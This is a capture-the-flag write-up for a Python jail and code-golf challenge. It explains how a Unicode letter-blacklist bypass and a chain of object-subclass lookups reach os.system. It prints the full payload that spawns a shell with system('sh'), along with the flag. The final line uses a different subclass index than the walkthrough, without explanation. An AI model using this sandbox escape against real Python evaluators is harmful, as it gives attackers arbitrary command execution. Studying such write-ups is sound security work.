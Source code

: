 # Albatross

A very tough Pyjail + Golf challenge. 

Builtins are removed, meaning no top level functions, we're run inside eval, which means no assignments, all letters are blacklisted, as well as quotes and spaces. 

The limit for the challenge was set at 102 chars.
First, the letter blacklist. This was definitely the easiest, and we just had to use a 'fancy text generator', as Python appears to 'collapse' this  text to regular ASCII before the length check but after the blacklist.
Our initial method involved traversing the namespace twice, to reach open() and the string 'flag.txt'. 

This was over 200 chars, and didn't work due to Python not loading in the function correctly. 

We realised we would have to pop a shell. 

Traversing to system took us 120 chars, and that was without a string such as sh to run it with. 

After a while, I spotted an os function earlier in the tree, and could use that to traverse to the os namespace, calling system from there. After that, it was a simple matter of getting any class, and substringing its __hash__ method to get 'sh'.
```
().__class__ - <class 'tuple'>
().__class__.__base__ - <class 'object'>
().__class__.__base__.__subclasses__()[127] - <class 'os._wrap_close'>
().__class__.__base__.__subclasses__()[127].close - <function _wrap_close.close at 0x7f74eb2eca70>
[*().__class__.__base__.__subclasses__()[127].close.__globals__.values()][42] - <built-in function system>
().__dir__()[1] - '__hash__'
().__dir__()[1][4:6] - 'sh'
[*().__class__.__base__.__subclasses__()[-5].close.__globals__.values()][42](().__dir__()[1][4:6]) - system('sh')
```
#### flag{SH*T_I_h0pe_ur_n0t_b1c..._if_y0u_@r3,_th1$_isn't_th3_fl@g}
